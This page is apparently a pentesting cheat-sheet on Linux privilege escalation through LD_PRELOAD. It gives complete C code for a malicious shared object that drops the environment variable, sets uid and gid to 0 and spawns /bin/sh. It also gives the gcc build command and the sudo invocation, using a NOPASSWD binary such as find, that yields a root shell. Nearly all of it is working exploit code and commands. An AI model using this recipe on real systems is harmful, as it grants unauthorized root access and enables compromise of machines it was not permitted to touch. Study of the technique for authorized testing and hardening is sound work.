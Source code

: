 # Linux Privilege Escalation with LD_PRELOAD
[< Back to Menu](README.md)
## Prerequisite Checking
```bash
sudo -l | grep env
```
- `env_keep+=LD_PRELOAD` should be exposed
## Payload Creation
- Generate this C-code and save to `/tmp`
```C
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```
- Assume I save at `/tmp/shell.c`
- Then, create `shell.so` 
```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
ls -al shell.so
```
## Exploitation
- Select any sudo command in `sudo -l`
- It will be good if you can find `(root) NOPASSWD:` so that you won't need user password.
```bash
sudo LD_PRELOAD=/tmp/shell.so <you_selected_sudo_command>
```
- For example, I found `(root) NOPASSWD: /usr/bin/find`
- Then, the exploitation will be
```bash
sudo LD_PRELOAD=/tmp/shell.so find
```